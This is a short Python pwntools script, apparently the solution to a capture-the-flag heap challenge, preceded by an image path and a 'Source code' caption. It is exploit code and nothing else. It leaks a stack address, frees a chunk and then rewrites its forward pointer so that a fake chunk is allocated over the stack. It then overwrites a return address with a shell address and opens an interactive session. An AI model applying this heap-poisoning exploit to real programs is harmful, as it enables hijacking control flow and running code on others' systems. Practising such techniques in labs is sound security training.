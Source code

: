 ```python
stack = int(p.recvline().strip(),16) # main rbp-8
log.info('stack : {}'.format(hex(stack)))
main_rbp = stack + 8
log.info('main_rbp : {}'.format(hex(main_rbp))) # main rbp
malloc_rbp = main_rbp - 0x40
log.info('malloc_rbp : {}'.format(hex(malloc_rbp))) # malloc rbp

malloc(32,'A'*8)
free(1)
modify(1,p64(malloc_rbp-0x20)) # fake chunk -> size_t size
malloc(32,'B'*8) # fd = malloc_rbp-0x20
malloc(0x30,'C'*24+p64(shell)) # return shell
#malloc(0x30,'C'*0x18+p64(shell))

p.interactive()
```

